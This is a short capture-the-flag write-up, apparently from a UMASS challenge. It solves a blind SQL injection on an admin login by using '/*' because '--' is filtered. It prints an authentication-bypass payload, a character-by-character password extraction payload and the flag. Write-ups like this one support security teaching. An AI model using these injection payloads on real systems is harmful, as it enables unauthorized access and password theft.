


# Blind SQLi

There's a parameter admin isset to False, then set to True


It leads me to admin login. I expect this is a SQLi auth bypass

## Solve
---

### Query from server 
```sql
SELECT * FROM users WHERE username = 'admin' AND Password = '';
```
- Because comment "--" was replaced by "ඞඞ" then i change to "/*". At first, im not sure it will work but eventually it works.
```sql
sus' or 1=1 /*
```
```sql
SELECT * FROM users WHERE username = 'sus' or 1=1 /* AND Password = '';
```
- We can't see the output. Just show a words

### Final Payload
```sql
sus' or substr((SELECT Password FROM users WHERE username='admin'),1,1) = 'U' /*
```
- Brute Force it
- After Waiting for a while, we got the flag

### flag

UMASS{7H35U55Y1MP0573rCr4CK57H3C0D3}
